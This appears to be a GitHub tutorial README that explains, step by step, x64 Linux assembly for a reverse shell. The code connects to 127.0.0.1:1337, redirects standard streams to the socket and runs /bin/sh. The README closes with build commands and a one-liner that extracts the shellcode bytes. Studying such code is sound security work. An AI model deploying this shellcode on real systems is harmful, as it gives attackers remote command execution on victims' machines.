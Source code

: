 # Reverse-shell assembly x64 Linux

This assembly code creates a socket, connects to a specified IP address and port, and then duplicates the file descriptor for standard input, output, and error. It then executes a shell using the `execve` system call.

There are 4 main steps to creating a reverse shell:

1. Create socket
2. Connect
3. Redirect STDIN, STDOUT, and STDERR
4. Execute received commands

## Creating sockets

The socket is created using the socket system call with the following parameters:

-   rdi: socket family (AF_INET = 2)
-   rsi: socket type (SOCK_STREAM = 1)
-   rdx: protocol (0)

The socket family specifies the domain in which the socket will be used (e.g. `AF_INET` for IPv4). The socket type specifies the type of communication (e.g. `SOCK_STREAM `for a stream socket). The protocol parameter is usually set to 0, which allows the system to choose the appropriate protocol for the specified socket family and type.

After the socket system call is executed, the socket descriptor is stored in the `rax` register and saved in the r9 register for future use.

```assembly
mov rax, 41   ; SYS_SOCKET = 41
    mov rdi, 2    ; socket family AF_INET = 2
    mov rsi, 1    ; SOCK_STREAM = 1
    mov rdx, 0    ; protocol = 0
    syscall
    mov r9, rax   ; sockfd saved
```

## Connections

The connection is established to host using the connect system call with the following parameters:

-   rdi: socket descriptor (saved in r9 from the socket creation step)
-   rsi: address of the sockaddr structure that specifies the IP address and port to connect to
-   rdx: size of the sockaddr structure

The sockaddr structure is created on the stack by pushing the following values:

-   IP address of the server (in network byte order)
-   port number of the server (in network byte order)
-   AF_INET value (2)

Worth to mention that the IP address and port are converted to network byte order by using the `bswap` and `xchg` instructions. The address of the sockaddr structure is then passed as the second parameter to the connect system call.

```assembly
    ; CONNECT
    mov rax, 42   ; SYS_CONNECT = 42
    mov rdi, r9   ; sockfd

        ; sockarrd structure creation
        mov rbx, 0x7f000001 ;IP addres localhost
        bswap rbx ; swaping to network byte order
        push rbx
        mov rbx, 0x539 ; 1337 port
        xchg bl, bh ; swaping to network byte order
        push bx
        push word 0x02  ; pushing AF_INET=2

    mov rsi, rsp    ; sockarrd structure addres from stack
    mov rdx, 16  ; sizeof(serv_addr) ???
    syscall
```

## Redirect STDOUT ...

The duplicate file descriptor part of the code uses the dup2 system call to duplicate the file descriptor of the socket (saved in r9) for standard input, output, and error. This is done using three separate dup2 system calls, each with the following parameters:

-   rdi: old file descriptor (r9)
-   rsi: new file descriptor (0, 1, or 2 for stdin, stdout, and stderr, respectively)

The dup2 system call duplicates the old file descriptor and assigns it to the new file descriptor. In this case, it is used to redirect the standard input, output, and error streams to the socket, so that any input or output from the shell will be sent through the socket.

```assembly
    ; Duplicate file descriptors for stdin, stdout, and stderr
    mov rax, 33  ; SYS_DUP2 = 33
    mov rdi, r9 ; old file descriptor
    mov rsi, 0   ; socfd
    syscall

    mov rax, 33  ; SYS_DUP2 = 33
    mov rdi, r9 ; old file descriptor
    mov rsi, 1   ; socfd
    syscall

    mov rax, 33  ; SYS_DUP2 = 33
    mov rdi, r9 ; old file descriptor
    mov rsi, 2   ; socfd
    syscall
```

## Execve

The run shell section of the code uses the execve system call to execute a shell. The execve system call takes the following parameters:

-   rdi: pathname of the file to execute
-   rsi: argument vector (an array of pointers to null-terminated strings)
-   rdx: environment vector (an array of pointers to null-terminated strings)

In this case, the pathname of the file to execute is the string "/bin/sh", which is stored in the ".rodata" section of the code. The argument and environment vectors are both set to 0 (NULL). This causes the execve system call to execute the shell with no arguments and no environment variables.

After the execve system call is executed, the shell will be run and will be able to receive and execute commands through the socket.

```assembly
    ; RUN SHELL
    mov rax, 59  ; SYS_EXECVE = 59
    lea rdi, [shell]
    xor rsi, rsi ; NULL, const char *const argv[]("//bin/sh", "//bin/sh", 0)
    xor rdx, rdx ; NULL, const char *const envp[] (0 or 0x00)
    syscall
```

## Compilation

To compile I used these commands

```sh
nasm -f elf64 rev.s
ld -o rev.bin rev.o
```

> GAS: as –o program.o program.s

> NASM: nasm –f elf –o program.o program.asm

> Linking (common to both kinds of assembler): ld –o program program.o

> Linking when an external C library is to be used: ld –-dynamic-linker /lib/ld-linux.so.2 –lc –o program program.o

## Notes

THis can be as base for shell code if for example \_start is substututed with function, then compiled and converted to shellcode like this

```assembly
for i in $(objdump -D reverse | grep "^ "|cut -f2); do echo -n '\\x'$i; done; echo
```

# References

-   https://medium.com/@bytesoverbombs/x64-slae-assignment-2-reverse-shell-c4b0ace4e34e
-   Values for flags https://github.com/openbsd/src/blob/master/sys/sys/socket.h
-   https://medium.com/@bytesoverbombs/x64-slae-assignment-2-reverse-shell-c4b0ace4e34e
